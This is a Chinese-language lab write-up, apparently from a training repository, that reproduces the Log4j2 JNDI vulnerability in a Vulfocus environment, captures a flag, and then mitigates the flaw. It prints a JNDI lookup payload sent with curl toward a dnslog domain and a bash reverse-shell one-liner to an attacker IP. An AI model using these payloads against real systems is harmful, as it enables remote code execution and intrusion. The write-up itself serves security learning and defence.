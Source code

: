 # Log4j2漏洞复现及修复

## 进入Vulfocus平台：通过克隆资源中的仓库地址来实现平台的搭建，启动vulfocus并找到log4j2漏洞，启动该漏洞
![](./启动vulfocus.png)
## 得到此漏洞的入口靶标，访问此地址正式进入当前环境测试URL
![](./log4j漏洞环境启动.png)
## 通过docker ps指令得到容器名称和ID,进入到此容器的环境,同时将环境路径下的demo.jar拷贝到宿主机
![](./容器名称.png)
![](./进入容器环境.png)
![](./克隆.jar包到宿主机.png)
## 通过反编译工具得到漏洞源代码，从而分析漏洞代码部分
![](./反编译.jar包源代码.png)
![](./漏洞源码.png)
## 分析源码得到漏洞部分代码为“logger.error("{}",payload);logger.info("{}",payload);”
## 验证漏洞可利用性：使用Poc手动测试漏洞，其中利用dnslog.cn生成随机域名
![](./获取dns.png)
## 使用curl指令触发一次域名解析请求
![](./触发域名解析请求.png)
![](./请求记录.png)

### 此处我通过运行curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'会出现报错，通过询问大模型得知漏洞入口靶标的端口不支持POST方法，于是更改了指令运行
![](./报错分析.png)

## 漏洞利用效果评估：通过在靶机中的单独测试有效负载来连接攻击机反弹窗口，验证反弹shell的成功利用
![](./反弹shell.png)
## 通过对靶机的监听可以在/tmp目录下得到靶标文件，里面记录了漏洞flag
![](./漏洞flag.png)

### 其中遇到了运行bash -i >& /dev/tcp/192.168.164.4/7777 0>&1进行反弹窗口连接报错问题，后来发现是shell解释器的环境不支持该语法，出现了重镜像语法错误
![](./负载测试报错分析.png)
![](./靶机测试有效负载报错.png)
### 于是替换显式使用 bash 执行命令即可成功。

## 漏洞缓解并验证：改变漏洞环境变量，重新解析dns请求发现没有更新记录
![](./修改环境变量.png)
![](./验证变量修改.png)
![](./无解析请求.png)
